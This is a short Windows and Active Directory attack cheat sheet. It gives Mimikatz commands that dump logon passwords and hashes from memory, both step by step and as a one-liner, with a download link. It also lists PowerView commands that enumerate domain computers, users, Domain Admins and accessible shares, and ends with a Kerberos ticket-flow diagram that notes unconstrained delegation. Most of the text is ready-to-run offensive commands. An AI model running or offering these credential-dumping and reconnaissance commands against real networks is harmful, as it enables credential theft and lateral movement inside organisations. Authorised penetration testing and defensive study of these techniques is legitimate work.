### Mimikatz
- https://github.com/gentilkiwi/mimikatz
- 2.1.1 (win10 compatible): https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip
```
# Run interactively
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords full

# Run oneliner
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
```

### PowerView
PowerSploit: https://github.com/PowerShellMafia/PowerSploit
```
# Get all domain `computers`
Get-DomainComputer | % {Resolve-IPAddress -ComputerName $_.cn}
# Get all domain `users`
Get-NetUser
# Get domain `admins`
Get-DomainGroupMember -identity "Domain Admins" -Domain xor.com -DomainController <ip>
# Get domain `shares`
Find-DomainShare -CheckShareAccess -Domain xor.com -DomainController <ip>
```

# Kerberos auth flow
```
1a. Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request (AS-REQ).
1b. The Domain Controller (KDC) checks user information (logon restrictions, group membership, etc) & creates Ticket-Granting Ticket (TGT).

2. The TGT is encrypted, signed, & delivered to the user (AS-REP).Only the Kerberos service (KRBTGT) in the domain can open and read TGT data

      User                                                                                      KDC

  (preauthentication)
ntlm = hash(password)                       ------ AS-REQ (TGT Req) ------>    Check user info/restrictions/groups
authenticator = hash(timestamp, ntlm)       <----- AS-REP (TGT Rep) -------     encrypt+sign(TGT, krbtgt)
Receives: TGT (encrypt+sign by krbtgt)


3. The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS-REQ). The DC opens the TGT & validates PAC checksum – If the DC can open the ticket & the checksum check out, TGT = valid. The data in the TGT is effectively copied to create the TGS ticket
4. The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user (TGS-REP).

      User                                                                                      KDC

       TGT                                   -------- TGS-REQ ------------>           Validate & decrypt TGT
                                             <------- TGS-REP -------------           encrypt(TGS, target_service_ntlm)
Receives: TGS (encrypt+sign by target service)                                        If unconstrained delegation enabled
                                                                                      a copy of the TGT is inserted into the TGS
```